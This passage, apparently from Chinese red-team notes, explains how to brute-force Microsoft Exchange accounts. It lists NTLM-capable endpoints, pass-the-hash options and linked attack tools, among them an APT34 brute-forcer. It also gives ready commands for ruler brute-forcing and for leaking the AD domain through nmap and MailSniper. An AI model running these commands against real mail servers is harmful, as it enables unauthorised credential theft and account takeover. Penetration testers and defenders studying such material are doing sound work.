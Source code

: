 Exchange 邮箱的登录账号分为三种形式, 分别为 “domain\username”、“username” 和“user@domain（邮件地址）”, 这三种方式可以并存使用, 也可以限制具体一种或两种使用。

具体使用哪一种用户名登录可以根据登录口的提示确定, 但这并不百分百准确, 管理员通过修改配置或者登录页面, 可以自行设置登录方式, 和提示说明。因此如果直接使用 owa 页面爆破, 用户名需要尝试全部三种方式。

爆破方式使用 burp 即可, 通过返回包长短即可判断成功与否。

对于某些限制登录次数的网站, 还可以尝试对其 NTLM 验证接口进行爆破, 最常见的就是 ews 接口, 但除此之外，还有以下接口地址。

- HTTP 直接认证

    ```
    /ecp                            # Exchange 管理中心,管理员用于管理组织中的Exchange 的Web控制台
    /owa                            # Exchange owa 接口,用于通过web应用程序访问邮件、日历、任务和联系人等
    ```

- HTTP NTLM 认证

    ```
    /Autodiscover/Autodiscover.xml  # 自 Exchange Server 2007 开始推出的一项自动服务,用于自动配置用户在Outlook中邮箱的相关设置,简化用户登录使用邮箱的流程。
    /Microsoft-Server-ActiveSync/default.eas
    /Microsoft-Server-ActiveSync    # 用于移动应用程序访问电子邮件
    /Autodiscover
    /Rpc/                           # 早期的 Outlook 还使用称为 Outlook Anywhere 的 RPC 交互
    /EWS/Exchange.asmx
    /EWS/Services.wsdl
    /EWS/                           # Exchange Web Service,实现客户端与服务端之间基于HTTP的SOAP交互
    /OAB/                           # 用于为Outlook客户端提供地址簿的副本,减轻 Exchange 的负担
    /Mapi                           # Outlook连接 Exchange 的默认方式,在2013和2013之后开始使用,2010 sp2同样支持
    /powershell                     # 用于服务器管理的 Exchange 管理控制台
    ```
    由于这些接口支持 NTLM 认证，因此也能 pth 域用户账户。甚至，`/rpc` 接口的 `[MS-OXNSPI]` 协议还能 pth 域机器账户。

爆破邮箱账户步骤,首先确定目标 AD 域名，再爆破用户名，最后爆破密码。值得一提的是，不是每个域用户都有邮箱账户，邮箱账户需要 Exchange 管理员手动给域用户添加。如果密码爆破成功后出现 `未找到 ISLAND\domain_admin 的邮箱` 的提示，则说明该账户未开通邮箱，但这个账户也是有效的域用户账户。

可以利用以下工具进行爆破

- [APT34 Exchange 爆破工具](https://github.com/blackorbird/APT_REPORT/blob/master/APT34/Jason.zip)
- [grayddq/EBurst](https://github.com/grayddq/EBurst) - 这个脚本主要提供对 Exchange 邮件服务器的账户爆破功能，集成了现有主流接口的爆破方式。
- [sensepost/ruler](https://github.com/sensepost/ruler) - 爆破 Exchange
    ```
    ./ruler --domain https://targetdomain.com/autodiscover/autodiscover.xml -k brute --users /path/to/user.txt --passwords /path/to/passwords.txt -v --threads 5 --delay 0
    ```

### 获取 AD 域名

在 Windows 进行 NTLM 认证时，无论输入的凭证是否正确，返回的 ntlmssp 包中都会带上大量系统相关信息：包括 NetBIOS 域名、NetBIOS 机器名、DNS 域名、DNS 机器名等。攻击者需要从 HTTP NTLM 认证的接口泄露 AD 域名，来配合接下来的用户名爆破。

```
# 指定要访问的接口，解析返回的 ntlmssp 包
nmap --script http-ntlm-info --script-args http-ntlm-info.root=/ews -p 443 192.168.123.123
nmap --script http-ntlm-info --script-args http-ntlm-info.root=/Autodiscover -p 443 192.168.123.123

# MailSniper.ps1，仅支持 /Autodiscover /ews 两个接口
Invoke-DomainHarvestOWA -ExchHostname 192.168.123.123
```
